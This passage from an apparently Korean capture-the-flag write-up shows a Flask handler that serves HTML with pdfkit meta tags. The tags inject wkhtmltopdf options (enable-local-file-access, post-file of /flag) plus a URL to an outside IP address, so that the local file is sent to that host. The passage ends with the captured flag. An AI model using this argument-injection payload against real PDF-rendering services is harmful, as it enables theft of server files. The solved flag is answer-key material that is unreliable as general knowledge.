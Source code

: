 ```python
    html_content = '''
    <html>
        <body>
            <p>please</p>
                <meta name='pdfkit---quiet' content=''>
                <meta name='pdfkit---enable-local-file-access' content=''>
                <meta name='pdfkit---post-file' content=''>
                <meta name='pdfkit-file--a' content='/flag'>
                <meta name='pdfkit-http://182.211.112.205/test?LFI-TEST=--' content='--cache-dir'>

            
            <h1>/flag</h1>
        </body>
    </html>
    '''
    return Response(html_content, mimetype='text/html')

if __name__ == '__main__':

    app.run(host='0.0.0.0', port=5555)

            # <meta name='pdfkit-quiet' content="">
            # <meta name='pdfkit-enable-local-file-access' content="">
            # <meta name='pdfkit-post-file' content="">
            # <meta name='pdfkit-file-a' content='/flag'>
            # <meta name='pdfkit-http://192.168.0.5:5555/test?test=--' content='-cache-dir'>

```

![image.png](/assets/post/75/image8.png)

```python
fiesta{06f029932cb39841155aac672bbe839f2d2f5ae625a842ed08d3752772d3f3c0}
```

### 신기술3 Model To Deep